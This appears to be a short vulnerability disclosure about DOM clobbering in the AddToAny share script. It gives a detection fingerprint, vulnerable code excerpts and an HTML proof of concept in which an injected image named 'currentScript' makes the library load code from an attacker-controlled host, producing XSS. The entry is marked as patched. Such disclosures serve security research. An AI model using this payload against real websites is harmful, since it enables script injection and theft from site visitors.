 ## AddToAny

### Meta

+ Library: AddToAny
+ Stars: N/A
+ Fingerprint: `window.hasOwnProperty('a2a_config')`
+ Payload: ```<img src="https://addtoany.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk

### Library

https://static.addtoany.com/menu/page.js

### Vulnerable Code Snippet

```javascript
_ = (d = o.currentScript) && d.src ? d.src : "",
e = d && !d.async && !d.defer,
```

```javascript
a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
```

```javascript
var e = l + (t ? "" : "modules/");
c(e + "core" + g + ".js", !0);
```

## PoC

``` html
<!--Library-->
<script async src="https://static.addtoany.com/menu/page.js"></script>
<!--Library-->

<!--Payload-->
<img src="https://addtoany.xxx.xxx" name="currentScript">
<!--Payload-->
```